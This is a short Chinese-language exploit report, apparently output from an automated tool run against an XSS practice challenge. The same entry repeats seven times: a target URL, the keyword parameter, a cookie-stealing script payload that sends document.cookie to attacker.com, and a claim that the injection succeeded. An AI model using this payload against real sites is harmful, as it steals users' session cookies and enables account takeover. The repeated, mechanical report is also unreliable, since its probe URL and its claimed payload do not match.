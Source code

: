#### 攻击指导

## 漏洞利用结果
### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传

### XSS 漏洞利用
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3E%3Cscript%3Ealert%281%29%3C%2Fscript%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 使用的Payload: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 利用结果: 成功注入XSS payload，等待数据回传
